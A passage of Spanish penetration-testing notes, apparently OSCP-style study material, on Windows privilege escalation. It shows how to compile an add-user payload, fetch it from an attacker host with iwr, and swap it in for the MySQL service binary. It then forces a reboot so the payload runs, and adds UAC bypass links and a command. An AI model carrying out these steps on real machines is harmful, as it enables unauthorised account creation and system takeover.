 Compilamos el cdigo y lo transferimos
~~~~c
>> x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
~~~~

Lo transferimos a la maquina windows (en kali tiene que haber un servidor )
~~~~c
PS >> iwr -uri http://IP/adduser.exe -Outfile adduser.exe  
~~~~

Movemos el binario que queremos secuestrar
~~~~c
>> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
>> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
~~~~

4º Si el servicio que intentamos secuestrar no tiene la capacidad de reiniciarse vamos a buscar servicios que se inicien autoamticamente 

~~~~c
PS >> Get-CimInstance -ClassName win32_service | Select Name, StartMode 
~~~~

5º Volvemos a revisar los permisos y volvemos a hacer los pasos anteriores

Vamos a comprobar si nuestro usuario tiene permisos para reiniciar el sistema
~~~~c

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
~~~~

En este caso no tenemos permisos, pero si tuviesesmos reiniciamos el ordenador
~~~~c
PS >> shutdown /r /t 0
~~~~

Y esperamos a que el codigo haga su trabajo

# UAC BYPASS

Links utiles
https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692
https://github.com/hfiref0x/UACME
https://github.com/x0xr00t/Automated-MUlti-UAC-Bypass
https://github.com/k4sth4/UAC-bypass

0º Probar
~~~~c
powershell.exe Start-Process cmd.exe -Verb runAs
~~~~
